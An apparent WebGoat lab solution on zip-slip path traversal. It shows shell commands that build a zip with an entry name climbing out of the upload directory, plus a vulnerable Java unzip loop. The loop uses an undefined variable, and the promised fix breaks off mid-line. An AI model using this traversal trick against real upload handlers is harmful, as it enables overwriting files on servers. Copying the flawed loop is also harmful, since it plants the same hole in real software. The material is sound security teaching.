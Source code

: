 === Solution

First let's create a zip file with an image inside:

[source]
----
curl -o cat.jpg http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip cat.jpg
----

Now let's upload this as our profile image, we can see nothing happens as mentioned in the assignment there is a bug in the software, and the result we see on the screen is:

[source]
----
Zip file extracted successfully, failed to copy image. Please contact our helpdesk.
----

Let's create a zip file which traverses all the way to the top and then back into the given directory in the assignment.

First create the directory structure:

[source, subs="macros"]
----
mkdir -p webGoatTempDir:temppath[]PathTraversal/username:user[]
cd webGoatTempDir:temppath[]PathTraversal/username:user[]
curl -o username:user[] http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip ../../../../../../../..webGoatTempDir:temppath[]PathTraversal/username:user[]/username:user[].jpg
----

Now if we upload this zip file, the assignment will be solved.

=== Why did this work?

In the code the developers used the following fragment:

[source%linenums]
----
ZipFile zip = new ZipFile(uploadedZipFile);
Enumeration<? extends ZipEntry> entries = zip.entries();
while (entries.hasMoreElements()) {
  ZipEntry e = entries.nextElement();
  File profilePicture = new File(uploadDirectory, e.getName());
  InputStream is = zip.getInputStream(e);
  Files.copy(is, f.toPath(), StandardCopyOption.REPLACE_EXISTING);
}
----

The fix is to make sure the resulting file in line 5 resides in the directory you expect. You can use the following method in Java:

[source]
----
File profilePicture = new File(uploadDirectory, e.getName());
if (profilePicture.

----

